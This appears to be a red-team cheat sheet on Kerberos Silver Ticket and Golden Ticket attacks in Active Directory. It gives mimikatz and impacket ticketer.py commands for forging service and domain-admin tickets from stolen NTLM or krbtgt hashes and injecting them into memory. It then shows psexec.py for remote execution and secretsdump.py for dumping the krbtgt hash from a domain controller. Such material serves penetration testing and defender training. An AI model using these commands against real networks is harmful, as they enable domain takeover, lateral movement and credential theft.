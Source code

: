 ### Silver Ticket
The Silver ticket attack is based on crafting a valid TGS for a service once the NTLM hash of service is owned (like the PC account hash). Thus, it is possible to gain access to that service by forging a custom TGS as any user.

```bash
# get domainSID
Get-ADDomain $domainName
```

* mimikatz

``` bash
# Forge
/kerberos::golden /domain:adsec.local /user:random_user /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
# Inject in memory
mimikatz.exe "kerberos::ptt ticket.kirbi"
```

* impacket ticketer.py

``` bash
# forge
ticketer.py -nthash ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -domain-sid S-1-5-21-1423455951-1752654185-1824483205 -domain adsec.local -spn CIFS/DESKTOP-01.adsec.local random_user

# export
export KRB5CCNAME='/path/to/random_user.ccache'

# use the ticket with -k option
psexec.py -k DESKTOP-01.adsec.local
```

### Golden Ticket
We need the `krbtgt` user's NTML hash to forge custom TGT with arbitrary PAC.

Then we can forge a TGT placing the TGT's user in the Domain Administrator group, this TGT is named `Golden Ticket`.

```bash
# get domainSID
Get-ADDomain $domainName
```

* mimikatz

``` bash
# Forge
/kerberos::golden /domain:adsec.local /user:random_user /sid:S-1-5-21-1423455951-1752654185-1824483205 /krbtgt:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /ptt
```

* impacket ticketer.py

``` bash
# forge
ticketer.py -nthash ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -domain-sid S-1-5-21-1423455951-1752654185-1824483205 -domain adsec.local random_user

# export
export KRB5CCNAME='/path/to/random_user.ccache'

# use the ticket with -k option
./psexec.py $domainName/randomuser@$IP -k -no-pass
secretsdump.py -k DC-01.adsec.local -just-dc-ntlm -just-dc-user krbtgt
```
